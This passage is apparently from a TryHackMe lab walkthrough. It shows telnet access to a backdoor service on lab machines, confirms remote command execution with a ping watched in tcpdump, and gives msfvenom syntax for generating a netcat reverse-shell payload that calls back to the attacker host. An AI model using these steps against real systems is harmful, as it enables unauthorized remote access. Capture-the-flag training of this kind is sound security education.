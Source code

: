 ```
N
```

<br>

Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.

Start a tcpdump listener on your local machine.

```shell
root@ip-10-10-46-62:~# sudo tcpdump ip proto\\icmp -i ens5
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens5, link-type EN10MB (Ethernet), capture size 262144 bytes
```

<br>

Now, use the command **Ping [local THM ip] -c 1** through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
Y
```

```shell
root@ip-10-10-46-62:~# telnet 10.10.220.9 8012
Trying 10.10.220.9...
Connected to 10.10.220.9.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.RUN ping 10.10.46.62 -c 1
```

```shell
root@ip-10-10-46-62:~# sudo tcpdump ip proto\\icmp -i ens5
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens5, link-type EN10MB (Ethernet), capture size 262144 bytes
03:35:25.225403 IP ec2-13-214-173-166.ap-southeast-1.compute.amazonaws.com > ip-10-10-46-62.eu-west-1.compute.internal: ICMP echo reply, id 16509, seq 14618, length 8
03:36:25.256032 IP ip-10-10-220-9.eu-west-1.compute.internal > ip-10-10-46-62.eu-west-1.compute.internal: ICMP echo request, id 1319, seq 1, length 64
03:36:25.256083 IP ip-10-10-46-62.eu-west-1.compute.internal > ip-10-10-220-9.eu-west-1.compute.internal: ICMP echo reply, id 1319, seq 1, length 64
```

<br>

We're going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. here's our syntax:
**msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R**

- **-p** = payload
- **host** = our local host IP address (this is your machine's IP address)
- **lport** = the port to listen on (this is the port on your machine)
- **R** = export the payload in raw format

<br>
